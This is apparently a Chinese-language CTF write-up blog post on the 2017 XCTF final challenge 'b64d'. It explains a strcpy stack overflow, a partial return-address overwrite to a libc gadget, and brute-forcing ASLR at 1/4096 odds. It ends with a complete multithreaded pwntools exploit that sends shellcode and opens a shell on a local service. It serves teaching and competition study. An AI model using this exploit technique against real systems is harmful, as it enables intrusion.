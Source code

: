 ```yaml
---
layout:     post
title:      "2017XCTF决赛题 -- b64d"
subtitle:   "从一道看似普通的栈溢出开始的探索"
date:       2017-10-01 22:46:25
author:     "Carter"
header-img: "img/post-bg-rwd.jpg"
tags:
    - Fuzz
    - pwn
---
```


### 写在前面
	前段时间有幸代表战队参加了2017年XCTF总决赛，和国内国外的大佬们有了现场过招的机会。该次决赛赛制也很有意思，不再采用两天都是攻防赛的形式，我是引入了目前IT圈内的大明星 -- 人工智能。总决赛总共两天，第一天是各个战队使用自己开发的AI工具，对主办方放出的题目进行自动化的fuzz，只有当fuzz出该题目的崩溃后，人类选手才能得到该题的二进制程序文件，进行分析和利用的开发；第二天则是过去的老套路，放出了4道pwn题（此次没有web题，心疼web选手），进行现场的攻防竞赛。

	此篇博文，不是挑选比赛中最难的题目进行说明，而是拿一道我觉得最有意思的题目，依此作为研究的起点，进行一些探索。这道题是我们的AI工具在第一天比赛开始后几分钟就fuzz出崩溃的一道题，名称叫做b64d，很明显的一个栈溢出漏洞，本来以为会轻松利用，结果后续研究过程却很有意思。下面由我细细道来。

###  一. 漏洞分析

   漏洞存在于main函数内，允许读入2048个base64编码后的字符串，将解码后的字符串v5通过strcpy函数复制到栈上，导致了栈溢出。
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/1.png)

​      程序是amd64结构，保护措施只开了堆栈地址随机化
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/2.png)

### 二. 难点探寻

​     这个简单的栈溢出题目为什么有趣呢？原因在于当我们覆盖其返回地址为shellcode地址时，strcpy遇到'\x00'发生了截断，因此不能够完全覆盖返回地址到bss段存放shellcode的地址。其返回地址覆盖前是一个so库中的地址，因此一旦修改错误程序就会跳到未知的地方，从而崩溃。
![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/3.png)

​      因此，我们只能在原本的一个so库地址上进行小范围修改。而so库的基址每次都是随机的，我们把返回地址覆盖到哪里？这是亟待解决的问题

### 三. 解决方法

> 3.1 探索
1. 我们从上图中可以看到，在栈顶往下4个地址处，有一个main函数开始的地址。试想：如果我们把返回地址修改成这个地址，再让main函数再运行一次，到ret时的返回地址会不会发生变化呢？（抱着''死马当作活马医的心态"试试看）  
  于是在gdb中手动修改了ret为main函数开始的地址，再一次回到ret处。此时可喜的看到，ret地址已经是0x0了，此时我们就可以随意覆盖返回地址到任意地方了
  ![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/4.png)

2. 那么该如何完成第一步我们的假设？很容易想到在第一次到达ret时，需要将程序的控制流返回到“pop pop pop ret”上，执行完这串gadget后，程序就刚好可以返回到栈顶往下第4个地址 – main函数起始处。

3. 要在so库中，找到一个'pppr'地址并不难，需要我们斟酌的是：

 - 选取哪个so库中哪个'pppr'序列？

 - 栈溢出时，覆盖ret本来的地址时，覆盖几个字节？

 - 并且同时需要考虑到：strcpy在拷贝时，会在末尾自动添加一个字节的'\x00'  

   ​


> 3.2 落实
1. 先来通过实践，看看在开启地址随机化的情况下，so库的地址范围有什么变化：
  0x00007f739fea0000 --  0x00007f73a0060000  
  0x00007f938edf9000 --  0x00007f938efb9000  
  可以看出，每一次so库的基址，后面6个字节都是随机的；在同一次运行过程中，不考虑有进位的情况下，so库地址后3个字节是变化的，前面的字节是相同的。这将作为我们研究的理论基础。

2. 在第一次覆盖ret时，此时该地址中存放的是  __libc_start_main+240 这一个地址，在我本机的so库计算偏移为：0x20830.  设想一下以下情况的合理性：在0x20830附近（因为要防止差得太多会导致进位的问题，因此在附近找最保险）寻找gadget，我们通过ROPgadget找到了一个0x202e3的gadget满足我的条件，我将ret地址的后两个字节通过栈溢出覆盖为‘\x02\xe3’，由于strcpy的原因，因此原来的ret地址会被覆盖为‘0x00007fxxxxxx0002e3’  
   接着我们逆向思考，当so库的基址是满足什么条件时，其0x202e3偏移的地址会满足‘0x00007fxxxxxx0002e3’。不难得出结论，即：so库基址的后6位是0xfe0000。从第4步的实验中可以轻松得到，此种概率为 1/4096

3. 如果第5步成功的命中，那么接下来就好办了：再一次运行main函数，利用栈溢出覆盖ret为bss段存放shellcode的地址即可。

### 四. 增加爆破效率
   由于命中的概率为 1/4096，是一个很小的概率，因此如何增加爆破效率是我们要解决的问题。在此我做了以下两点工作：

 - 同时开启了40个线程，用并发加快命中概率
 - 每次运行时，先读取 '/proc/pid/maps' 文件，检查so库加载基址是否为 0xfe0000，如果不是则退出，缩短了单个程序运行时间
     ![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2017-10-01-b64d/5.png)
        最终跑出来的时间还是和人品有关系，但在40个线程的情况下，最多用时10分钟也都能跑出来了。

### 五. 利用代码
```python
from pwn import *
import base64
import time
import datetime
import threading

flag=0

def monitor(pid):
	f = open('/proc/{}/maps'.format(pid))
	data = f.read().split('\n')
	f.close()
	for item in data:
		if '/lib/x86_64-linux-gnu/libc-2.23.so' in item:
			print item[0:item.find('-')]
			if item[6:12]=='fe0000':
				return True
			return False

def pwn():
	global flag
	#context.log_level = 'debug'
	while 1:
		if flag:
			exit(0)

		io = remote('127.0.0.1',2333)
		try:
			pid = pidof('b64d')[0]
			print 'pid = {}'.format(pid)
			if monitor(pid):
				print 'Find it'
				flag = 1
				#gdb.attach(pid,open('debug'))

			padding = 'A'*56
			shellcode = asm(shellcraft.amd64.linux.sh(),arch='amd64')


			payload1 = padding + '\xe3\x02'
			payload1 = base64.b64encode(payload1)
			io.sendline(payload1)
			io.recv(1024)

			#time.sleep(1)

			shellcode_addr = 0x602119
			payload2 =  base64.b64encode('a'*56 + p64(shellcode_addr)) + '\x00' + shellcode
			io.sendline(payload2)
			io.recv(1024)
	
			io.interactive()
			# 	break
		except KeyboardInterrupt:
			io.close()
			break
		except:
			io.close()
			pass
		

if __name__=='__main__':
	thread = []
	starttime = datetime.datetime.now()


	for i in range(40):
		t = threading.Thread(target=pwn,args=())
		thread.append(t)
		t.start()

	for i in thread:
		i.join()

	endtime = datetime.datetime.now()
	print (endtime - starttime).seconds
```